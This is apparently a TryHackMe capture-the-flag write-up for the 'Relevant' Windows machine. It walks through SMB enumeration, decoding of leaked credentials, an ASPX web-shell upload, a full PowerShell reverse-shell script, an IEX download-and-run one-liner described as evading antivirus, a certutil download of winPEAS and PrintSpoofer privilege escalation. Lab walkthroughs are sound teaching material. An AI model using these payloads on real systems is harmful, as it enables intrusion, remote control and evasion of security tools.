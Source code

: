# TryHackMe Machine Relevent

**IP Address**
```shell
export ip=10.10.111.67
```

## Scanning

```
PORT      STATE SERVICE
80/tcp    open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-18T15:08:49+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-17T14:37:56
| Not valid after:  2023-02-16T14:37:56
| MD5:   8705 7420 7bf9 8563 bb66 29f5 cdde fd1d
|_SHA-1: 2c85 81dc 2811 d9b2 0d70 9cf7 593b 6b12 b260 53cc
|_ssl-date: 2022-08-18T15:08:48+00:00; -2m42s from scanner time.
49663/tcp open  http
49667/tcp open  unknown

Host script results:
|_clock-skew: mean: 1h21m18s, deviation: 3h07m50s, median: -2m42s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-18T08:08:49-07:00
| smb2-time: 
|   date: 2022-08-18T15:08:48
|_  start_date: 2022-08-18T14:38:15
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

## Enumeration

```
smbclient -L \\\\$ip\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
```
The `nt4wrksv` share have anonymous login. We can connect to it using the following.
```shell
smbclient \\\\$ip\\nt4wrksv
```
In the share there is a `passwords.txt` file that have the following content.
```text
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
It looks like password encoded with `base64` after decoding it got the following results.
```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
I tried above password on RDP but It doesn't work.

**HTTP**
There are more then one http server running on the machine.

***Content-Discovery***
I run `ffuf` but doesn't found any usefull directory where we can use the above credentials or do any other things.
I try `nt4wrksv` share name on the web server and luckily it show status 200. That means that directory exits and when I request for `passwords.txt` it show me its content. I try uploading files from `smb` and I was successfully able to do that. Now we can upload any reverse shell code and execute it by visiting the page. As its a windows IIS server that use `aspx` or `asp` files as its backend language so we have to make our reverse shell using that. We can make reverse shell using `msfvenom` but I copy `/usr/share/webshells/aspx/cmdasp.aspx` on my current directory and upload it using the following command.
```smb
smb: \> put cmdasp.aspx
```
After that I visit the page on this link `http://$ip/nt4wrks/cmdasp.aspx` and they show me command execution box i can submit any command on there and they show me its output. I know i can directly get the reverse shell instead of this but its also a other possiblity to execute commands. Now I try to get a reverse shell by uploading reverse shell binary(.exe) but AntiVirus Delete all of them and also I cannot able to execute powershell reverse shell code from there because antivirus mark that malicious. So I search in google and got the following command that download a text file that contain powershell reverse shell code and after downloading that they execute it without alerting antivirus software. So I host the following powershell code 

```powershell
function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
// Setup IPADDR
$address = '10.11.79.134'
// Setup PORT
$port = '4444'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
And save it with the name `powershell.reverse.txt` and host it using `python` http server.

Now I use this command on `cmdasp.aspx` endpoint and I got my reverse shell back without alerting the antivirus software.
```Reverse-Shell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://10.11.79.134/powershell.reverse.txt')"
```

## Priv-Escallation
Now I host `winpeas.bat` and transfer it using python http server i can also upload that using smb but i want a lengthy path.
```powershell
certutil.exe -urlcache -split -f http://10.11.79.134/winPEAS.bat winpeas.bat
```
After running `winpeas.bat` they show me our user have the following privilleges.

```cmd.exe
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
There we can see `SeImpersonatePrivilege` is enabled and we can abuse that using `PrintSpoofer` so I download printspoofer from this link https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
and send it to the target system and use the following command to get the system user.
```cmd.exe
PrintSpoofer64.exe -i -c cmd.exe
```
This opens a command prompt with `nt authority\system` and we got the root/system.